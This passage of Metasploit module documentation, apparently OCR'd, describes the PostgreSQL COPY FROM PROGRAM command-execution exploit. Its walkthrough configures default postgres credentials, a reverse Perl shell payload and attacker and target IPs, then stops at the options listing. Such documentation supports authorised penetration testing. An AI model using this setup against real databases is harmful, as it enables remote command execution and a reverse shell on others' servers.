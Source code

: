   **DUMP_TABLE_OUTPUT**

  If enabled this option will perform a select statement on the created table before it is deleted. This can be used for
  debugging if there are problems with a command being executed.

  **DATABASE**

  Name of the database to connect to

  **USERNAME**

  A valid username that allows access to the database

  **PASSWORD**

  A valid password that allows access to the database

## Scenarios

### Exploiting PostgreSQL 11.2 on Linux Ubuntu 18.04

    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set DATABASE postgres
    DATABASE => postgres
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set USERNAME postgres
    USERNAME => postgres
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set PASSWORD postgres
    PASSWORD => postgres
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set payload cmd/unix/reverse_perl
    payload => cmd/unix/reverse_perl
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set LHOST 192.168.0.18
    LHOST => 192.168.0.18
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set RHOSTS 192.168.0.25
    RHOSTS => 192.168.0.25
    msf exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show options

    Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       COMMAND                     no        Send a custom command instead of a payload, use with powershell web delivery against windows
       DATABASE   postgres         yes       The database to authenticate against
       PASSWORD   postgres         no        The password for the specified username. Leave blank for a random password.
       RHOSTS     192.168.0.25     yes       The target address range or CIDR identifier
       RPORT      5432             yes       The target port (TCP)
       TABLENAME  msftesttable     yes       A table name that doesnt exist(To avoid deletion)
       USERNAME   postgres         yes       The username to authenticate as


    Payload options (cmd/unix/reverse_perl):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  192.168.0.18     yes       The listen address (an interface may be specified)
       LPORT  4456             yes       The listen port
